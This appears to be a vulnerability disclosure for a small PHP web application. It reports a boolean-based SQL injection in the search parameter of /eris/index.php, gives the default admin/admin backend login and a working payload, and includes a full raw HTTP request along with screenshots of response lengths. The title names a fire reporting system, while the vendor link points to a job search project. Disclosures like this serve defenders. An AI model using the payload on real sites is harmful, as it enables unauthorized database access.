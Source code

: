 # Online Fire Reporting System v1.0  has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/index.php?q=viewjob&search=

Vulnerability location: /eris/index.php?q=viewjob&search=, search

Current database name: erisdb ,length is 6

[+] Payload: /eris/index.php?q=viewjob&search=1%27%20and%20length(database())=6--+ // Leak place ---> search

```sql
GET /eris/index.php?q=viewjob&search=1%27%20and%20length(database())=6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

When length (database ()) = 5, Content-Length: 16795
![image](https://user-images.githubusercontent.com/54017627/170848952-3d0644ef-9b6d-4cc2-9432-13ce49e9cb83.png)

![image](https://user-images.githubusercontent.com/54017627/170848965-ddcb02d2-99b8-4a11-8ba7-515234095973.png)

When length (database ()) = 6, Content-Length: 20558
![image](https://user-images.githubusercontent.com/54017627/170848949-ee172cda-db44-4b6a-bae2-87bc20548121.png)

![image](https://user-images.githubusercontent.com/54017627/170848957-b26f6391-8150-4cc4-960a-24c95b4bf1c9.png)
